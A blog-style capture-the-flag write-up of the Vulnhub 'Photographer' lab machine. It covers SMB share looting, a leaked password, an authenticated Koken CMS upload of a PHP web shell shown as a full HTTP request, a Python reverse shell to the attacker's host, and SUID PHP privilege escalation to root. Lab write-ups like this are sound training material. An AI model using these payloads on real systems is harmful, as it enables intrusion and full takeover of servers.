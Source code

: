 ```yaml
---
layout: post
title:  "Vulnhub - Photographer"
date:   2020-08-28 00:00:00 +1000
category: hacking
---
```


## Introduction
*This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.*

[File](https://www.vulnhub.com/entry/photographer-1,519/). Not zipped strangely, so it's a 2.6Gb download as an ova file.

## Nmap
We've got four ports: SMB (139/445), HTTP on 80 and port 8000. If you guessed that's a second HTTP port, you're correct.

## SMB

smbclient let me enumerate the shares, but didn't seem to want to connect to the one we wanted:

{% highlight shell %}
root@kali:/opt/vulnhub/photographer# smbclient -L ////192.168.1.78//sambashare
Enter WORKGROUP\roots password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
{% endhighlight %}

But it's okay, because impacket can help:

{% highlight shell %}
root@kali:/opt/vulnhub/photographer# /opt/impacket/examples/smbclient.py 192.168.1.78
Impacket v0.9.22.dev1+20200422.223359.23bbfbe1 - Copyright 2020 SecureAuth Corporation

Type help for list of commands
# shares
print$
sambashare
IPC$
# use sambashare
# ls
drw-rw-rw-          0  Tue Jul 21 01:30:07 2020 .
drw-rw-rw-          0  Tue Jul 21 09:44:25 2020 ..
-rw-rw-rw-        503  Tue Jul 21 01:29:39 2020 mailsent.txt
-rw-rw-rw-   13930308  Tue Jul 21 01:22:23 2020 wordpress.bkp.zip
# get mailsent.txt
# get wordpress.bkp.zip
# exit
{% endhighlight %}

From these files, we get something immediately useful:

{% highlight shell %}
root@kali:/opt/vulnhub/photographer# cat mailsent.txt 
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Websites
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Dont forget your secret, my babygirl ;)
{% endhighlight %}

## Webserver
The page on port 8000 seems to be the most interesting one, and it's running a CMS called Koken, which is seemingly designed for photographic content. Running searchsploit shows an Authenticed RCE for a version of it, so that may be what we're after.

Fuzzing with WFUZZ:

``
root@kali:/opt/vulnhub/photographer# wfuzz --hh 0 -u http://192.168.1.78:8000/FUZZ -w /usr/share/dirb/wordlists/big.txt
``

gives us a page called **/admin** that allows login; it wants an email address and a password. We try it with **daisa@photographer.com:babygirl** and we're in.

## Authenticated RCE
Checking the searchsploit entry we find that after logging in we can upload PHP code in a file with a jpeg extension but then change the file extension in Burp Suite Repeater. So my request looks like this (sorry for the wall of text):

{% highlight html %}
POST /api.php?/content HTTP/1.1
Host: 192.168.1.78:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.78:8000/admin/
x-koken-auth: cookie
Content-Type: multipart/form-data; boundary=---------------------------15437199420792611378553372
Content-Length: 1052
Connection: close
Cookie: koken_referrer=; koken_session_ci=KDz4yYnLMlltcWgAGYKO SNIPPED

-----------------------------15437199420792611378553372
Content-Disposition: form-data; name="name"
cmd.php
-----------------------------15437199420792611378553372
Content-Disposition: form-data; name="chunk"
0
-----------------------------15437199420792611378553372
Content-Disposition: form-data; name="chunks"
1
-----------------------------15437199420792611378553372
Content-Disposition: form-data; name="upload_session_start"
1598587652
-----------------------------15437199420792611378553372
Content-Disposition: form-data; name="visibility"
public
-----------------------------15437199420792611378553372
Content-Disposition: form-data; name="license"
all
-----------------------------15437199420792611378553372
Content-Disposition: form-data; name="max_download"
none
-----------------------------15437199420792611378553372
Content-Disposition: form-data; name="file"; filename="cmd.jpeg"
Content-Type: image/jpeg
<?php system($_GET['cmd']);?>
-----------------------------15437199420792611378553372--
{% endhighlight %}

Then we go find that file and send it commands like this:

``
GET //storage//originals//93//9c//cmd.php?cmd=python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("192.168.1.77",1234))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b' HTTP/1.1
``

Which gets us a shell.

## www-data
We're on the box as www-data, but we can read the user flag from **/home/daisa**:
*d41d8cd98f00b204e9800998ecf8427e*

Now what?

Well, we can get the database credentials from here:
>www-data@photographer:/$ cat /var/www/html/koken/storage/configuration/database.php  
'username' => 'kokenuser',  
'password' => 'user_password_here',  

And log into mysql:

>www-data@photographer:/$ mysql --host=127.0.0.1 --port 3306 -u kokenuser -p  
mysql --host=127.0.0.1 --port 3306 -u kokenuser -p  
Enter password: user_password_here

But the only user is daisa, and we already know her password so grabbing the hash ($2a$08$ruF3jtzIEZF1JMy/osNYj.ibzEiHWYCE4qsC6P/sMBZorx2ZTSGwK) isn't very helpful. 

## Privesc
Running linpeas gives us a list of SUID binaries, and one of them is PHP. Although it doesn't highlight it, this is our way in. [GTFOBins](https://gtfobins.github.io/gtfobins/php/) shows the way:

``
php -r "pcntl_exec('/bin/sh', ['-p']);"
``

{% highlight shell %}
# whoami
whoami
root
# cat proof.txt
cat proof.txt
Follow me at: http://v1n1v131r4.com
d41d8cd98f00b204e9800998ecf8427e
{% endhighlight %}

